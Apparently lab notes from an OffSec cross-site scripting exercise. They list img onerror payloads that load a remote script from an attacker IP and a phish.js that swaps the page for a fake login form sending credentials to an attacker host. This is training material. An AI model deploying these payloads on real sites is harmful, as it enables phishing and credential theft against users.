 


executing login.html with this script 


```js
<img src='x' onerror="const script = document.createElement('script'); script.src = '[http://192.168.45.236/phishingexercise.js](http://192.168.45.236/phishingexercise.js)'; script.async = true; document.body.appendChild(script);">
```

**From OFFSEC**
```js
document.getElementsByTagName("html")[0].innerHTML = "<form action='[http://192.168.45.156/cred](http://192.168.45.156/cred)' method='GET'><input type='text' placeholder='name@example.com' name='username'><input type='password' placeholder='Password' name='password'><button class='w-100 btn btn-lg btn-primary' type='submit'>Sign in</button></form>"



Since innerHTML was used, we can't use the <script> tag directly. However, we may create our own script element: [https://codingbeautydev.com/blog/javascript-create-script-element/](https://codingbeautydev.com/blog/javascript-create-script-element/)

const script = document.createElement('script'); script.src = '[http://192.168.45.156/phish.js](http://192.168.45.156/phish.js)'; script.async = true; document.body.appendChild(script);


<img src='x' onerror="const script = document.createElement('script'); script.src = '[http://192.168.45.156/phish.js](http://192.168.45.156/phish.js)'; script.async = true; document.body.appendChild(script);">
```

Comparing ours
phish.js
```js
document.getElementsByTagName("html")[0].innerHTML = "<form action='[http://192.168.45.236/login](http://192.168.45.236/login)' method='GET'><input type='text' placeholder='name@example.com' name='username'><input type='password' placeholder='Password' name='password'><button class='w-100 btn btn-lg btn-primary' type='submit'>Sign in</button></form>"
```
Final Payload
```js

<img src='x' onerror="const script = document.createElement('script'); script.src = '[http://192.168.45.156/phish.js](http://192.168.45.156/phish.js)'; script.async = true; document.body.appendChild(script);">

<img src='x' onerror="const script = document.createElement('script'); script.src = '[http://192.168.45.236/phish.js](http://192.168.45.236/phish.js)'; script.async = true; document.body.appendChild(script);">

<img src="x" onerror='const script = document.createElement("script");script.src ="http://192.168.45.236/phish.js";script.async = true;console.log("Script loaded successfully");document.body.appendChild(script);'>

```
